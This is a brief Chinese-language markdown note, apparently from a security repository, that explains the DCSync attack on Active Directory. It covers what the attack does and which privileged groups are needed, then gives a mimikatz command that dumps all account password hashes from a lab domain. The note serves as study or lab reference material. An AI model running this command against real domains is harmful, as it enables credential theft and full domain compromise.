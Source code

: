 # DCSync攻击

## 什么是DCSync
DCSync模仿一个域控制器，从真实的域控制器中请求获取数据，例如账号的口令散列值等数据。

## DCSync攻击前提 
* Administrators组内的用户
* Domain Admins组内的用户
* Enterprise Admins组内的用户

## DCSync攻击

```JS
mimikatz "lsadump::dcsync /domain:deelmind.lab /all"
```